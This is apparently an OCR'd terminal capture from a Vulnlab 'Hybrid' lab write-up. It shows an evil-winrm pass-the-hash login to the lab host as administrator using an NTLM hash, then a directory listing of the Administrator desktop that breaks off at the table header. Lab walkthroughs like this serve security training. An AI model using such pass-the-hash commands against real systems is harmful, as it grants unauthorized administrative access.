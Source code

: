 ```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ evil-winrm -i hybrid.vl -u administrator -H "60701e8543c9f6db1a2af3217386d3dc"
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----   
```


---
